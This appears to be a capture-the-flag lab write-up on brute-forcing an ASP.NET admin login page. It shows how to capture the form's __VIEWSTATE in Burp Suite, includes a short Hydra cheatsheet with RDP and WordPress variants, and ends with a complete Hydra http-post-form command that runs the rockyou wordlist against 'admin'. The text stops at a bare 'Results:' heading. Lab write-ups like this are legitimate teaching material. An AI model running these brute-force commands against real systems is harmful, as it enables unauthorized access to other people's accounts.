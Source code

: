 Copy the URL:

    http://<IP address target machine>/Account/login.aspx?ReturnURL=/admin/

Type of request:

    # curl -s http://<IP address target machine>/Account/login.aspx?ReturnURL=/admin/ | grep "<form"
        <form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">

Using Burpsuite Intruder, try a brute-force on that `admin` user. Fire up Burpsuite, go to login page, 
set Burpsuite to intercept, and try to log in. Catch the `__VIEWSTATE` for use in Hydra.

|                                                                                                                                                                                                                                                               ![Burpsuite proxy intercept](/_static/images/screenshot-intercept.png)                                                                                                                                                                                                                                                               |
|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| __VIEWSTATE=HyDAVJBUzaoWbePyeU7aJWUKLoIeSNhkpLwoKuSJYYorT2mFK5gG3zW4y%2F<br/>aa0Nv60arFkTV0uFNS8cU8Zrhf3QFwm4LeDyJVKQOfqh0GHwiKFm0NU%2BBa<br/>hqGt9szkQqO6inS92zNkiQ2x6usDxT9Zumz3go6vwo3AfOWIfRNuJeYa%2FsbQ&<br/>__EVENTVALIDATION=lSQI5ypG9I3szy4G87w98h3YF4IR%2FNhNTjz1YjdKlGwjW<br/>uzNrGbLTR%2Bm%2FHYM84xxxticrZc8pgZrywRT5QrN2kYdTOWNlu0Iw%2FUYZcl<br/>fGLWghmvGeRx4rfh5oYC8QbeVh60uXYY0FpdFSJGJY4D56nvCYUwXjUfl4QlydaPXqAKiNcb9<br/>&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent<br/>%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in |


Mini hydra cheatsheet:

| Command                                                                                                                                                | Description                                                                                                                                                                       |
|:-------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| hydra -P <wordlist> -v <ip> <protocol>                                                                                                                 | Brute force against a protocol of your choice.                                                                                                                                    |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>                                                                           | You can use Hydra to bruteforce usernames as well <br/>as passwords. It will loop through every combination <br/>in your lists. (-vV = verbose mode, showing login <br/>attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>                                                                                                | Attack a Windows Remote Desktop with a password <br/>list.                                                                                                                        |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:<br/>log=^USER^&pwd=^PASS^&wp-submit=<br/>Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra <br/>to brute force.                                                                                                                      |

Constructing the hydra command:

* `-f` flag to stop the attack when a valid password is found
* `-l` flag to specify the username for the bruteforce attack = `admin`
* `-P` flag to specify the wordlist to use for the bruteforce = `/usr/share/wordlists/rockyou.txt`
* IP of the target server = `10.10.39.227`
* Type of attack = `http-post-form`
* Page to attack = "`/Account/login.aspx:__VIEWSTATE...`"
* In `__VIEWSTATE...` change `UserName=admin` to `UserName=^USER^`
* In `__VIEWSTATE...` change `Password=admin` to `Password=^PASS^`
* Add a Failed login message to be able to detect when we have success = `:Login Failed`

```text
# hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.39.227 http-post-form "/Account/login.aspx:__VIEWSTATE=HyDAVJBUzaoWbePyeU7aJWUKLoIeSNhkpLwoKuSJYYorT2mFK5gG3zW4y%2Faa0Nv60arFkTV0uFNS8cU8Zrhf3QFwm4LeDyJVKQOfqh0GHwiKFm0NU%2BBahqGt9szkQqO6inS92zNkiQ2x6usDxT9Zumz3go6vwo3AfOWIfRNuJeYa%2FsbQ&__EVENTVALIDATION=lSQI5ypG9I3szy4G87w98h3YF4IR%2FNhNTjz1YjdKlGwjWuzNrGbLTR%2Bm%2FHYM84xxxticrZc8pgZrywRT5QrN2kYdTOWNlu0Iw%2FUYZclfGLWghmvGeRx4rfh5oYC8QbeVh60uXYY0FpdFSJGJY4D56nvCYUwXjUfl4QlydaPXqAKiNcb9&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

Results:

